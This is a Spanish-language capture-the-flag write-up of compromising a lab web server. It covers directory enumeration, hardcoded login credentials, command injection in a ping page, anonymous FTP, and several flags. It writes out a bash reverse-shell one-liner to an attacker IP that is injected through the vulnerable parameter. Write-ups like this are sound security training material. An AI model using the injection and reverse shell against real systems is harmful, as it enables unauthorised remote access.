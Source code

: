 -  Vamos a ver el puerto 80 que contiene esta pagina web

![[Pasted image 20240802214740.png]]

- Se hace una enumeracion de directorio usando la herramienta **dirb** y nos da como resultado que hay un directorio llamado **uploads** 

![[Pasted image 20240803005503.png]]

- Al ingresar a ese directorio obtenemos otra flag

![[Pasted image 20240803005600.png]]

```
FLAG{ENUMERA_DIRECTORIOS_SIEMPRE}
``` 

* Al revisar el codigo fuente de esa pagina se obtiene una flag

![[Pasted image 20240802215052.png]]

```
<!-- FLAG{B13N_Y4_T13N3S_UN4_+} -->
``` 

* Se revisa el **Bypass Login 1** y en su codigo fuente hay unas credenciales fijas que son **supersecret** y **admin**

![[Pasted image 20240802215804.png]]

* Al loguearse con esas credenciales se obtiene otra flag

![[Pasted image 20240802220251.png]]

```
FLAG{LOGIN_Y_JAVASCRIPT}
``` 

- En el link de Ping-Pong nos muestra esto

![[Pasted image 20240802230923.png]]

- Si ejecutamos en la url ese archivo php con esa variable ip, obtenemos con exito un ping

![[Pasted image 20240802231430.png]]

* Esto me da a entender que es vulnerable a command injection por lo tanto al probar con el caracter **|** si se explota con exito la vulnerabilidad

![[Pasted image 20240802231606.png]]

* Al revisar ese archivo **txt** se obtiene otra flag

![[Pasted image 20240802231945.png]]

```
FLAG{SIMPLEMENTE_RCE}
``` 

- Luego se ejecuto un reverse shell de la siguiente manera

```
bash -c 'bash -i >& /dev/tcp/192.168.1.7/443 0>&1'
``` 

- Para que funcione se tiene que usar URL encoding y con ayuda de BurpSuite se realizo el encoding

![[Pasted image 20240803001126.png]]

- El resultado del URL enconding se pega en la URL despues del caracter **|** y con eso se obtuvo una reverse shell exitosamente

![[Pasted image 20240803001516.png]]

![[Pasted image 20240803001611.png]]

- Nos dirijimos a la carpeta **home** para ver que usuarios existen y solo hay uno llamado **deloitte**

![[Pasted image 20240803002326.png]]

- Dentro de ese usuario hay otra flag

![[Pasted image 20240803002409.png]]
![[Pasted image 20240803002431.png]]

```
FLAG{W311_D0N3_R00T_1S_W41T1nG_U}
``` 

- Dentro del usuario deloitte si se hace un **ls -la** se muestran diferentes archivos

![[Pasted image 20240803003317.png]]

- Dentro del archivo **.bash_history** hay diferentes ejecuciones que se hicieron y hay varias de esas ejecuciones interesantes que son estas

![[Pasted image 20240803003652.png]]
![[Pasted image 20240803003832.png]]

- Revisamos la flag de opt y esta encriptada en base64

![[Pasted image 20240803004110.png]]

- Desde nuestra maquina Kali Linux se desencripta y obtenemos otra flag

![[Pasted image 20240803004231.png]]

```
FLAG {Y0u_are a real Hacker}
``` 

- Dentro de la carpeta **html** estan todos los archivos y carpetas de la pagina web del puerto 80, al revisar la carpeta login_2 que es del Bypass Login 2 encontramos un archivo.php que contiene otra flag

![[Pasted image 20240803023113.png]]

```
FLAG{BYPASS1NG_HTTP_METH0DS_G00D!}
``` 

- El escaneo de nmap y el escaneo de directorio con dirb nos dice que el puerto 80 tiene un archivo **robots.txt** al revisar ese archivo no muestra lo siguiente

![[Pasted image 20240802234009.png]]

- Al ir a ese directorio de **/cyberacademy** se obtiene otra flag

![[Pasted image 20240802234149.png]]

```
FLAG{YEAH_R0B0T$.RUL3$}
``` 

- El resultado de nmap nos dice que el puerto 21 corre un FTP y a su vez nos dice que el inicio de sesión FTP anónimo está permitido con el usuario **ftp** o colocando el usuario **anonymous**, se obtiene el ingreso de manera exitosa y con el comando **dir** se listan los archivos

![[Pasted image 20240802235536.png]]

- Se descarga eso archivo **txt** con el comando **get** y al revisar su contenido se obtiene otra flag

![[Pasted image 20240802235807.png]]

![[Pasted image 20240803000010.png]]

```
FLAG{FTP_4n0nym0us_G00D_JoB!}
``` 


